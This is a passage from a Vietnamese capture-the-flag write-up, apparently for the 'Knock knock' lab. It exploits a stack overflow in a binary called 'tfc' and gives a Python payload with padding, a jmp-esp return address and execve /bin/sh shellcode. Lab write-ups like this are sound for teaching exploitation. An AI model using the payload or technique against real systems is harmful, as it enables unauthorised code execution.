 Lúc này chỉ cần tìm đoạn crash (0x61687062) trong cyclic nó ở byte bao nhiêu là được

![Untitled](Knock%20knock%200fd187fb6e7f4817a31d17bfc775bf0d/Untitled%2036.png)

Giờ thì đã biết 4124 bytes này rồi, giờ mình thêm 4 bytes nữa thì nó sẽ ghi đè vào return address. Vậy mình sẽ cho return nó về `esp` (Vì lúc mình truyền theo shellcode, lướt lướt một đoạn thì esp này sẽ chỉ vào đúng cái đoạn shellcode đó). Khi return về esp ⇒ Thực thi shellcode

Giờ thì dùng tool `msfelfscan` để tìm chuỗi esp trong file `tfc`

![Untitled](Knock%20knock%200fd187fb6e7f4817a31d17bfc775bf0d/Untitled%2037.png)

Có địa chỉ này rồi thì mình ghi đè vào return address cái địa chỉ 0x08048e93 là xong. Hoàn thiện payload nào

```python
shellcode = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

returnAddress = "\x93\x8e\x04\x08" # 0x08048e93

print("A" * 4124 + returnAddress + shellcode)
```

Sau đó chạy và lưu vào file `pl.tfc`: `python payload.py > pl.tfc`

![Untitled](Knock%20knock%200fd187fb6e7f4817a31d17bfc775bf0d/Untitled%2038.png)

Tiếp theo chạy một `tfc` với input là `pl.tfc`: `./tfc pl.tfc out.tfc` 

Tiếp tục là tìm `def0` (vì lần này đoạn đầu payload toàn ký tự A) ⇒ Mang đi tính số bytes cần bỏ qua

![Untitled](Knock%20knock%200fd187fb6e7f4817a31d17bfc775bf0d/Untitled%2039.png)
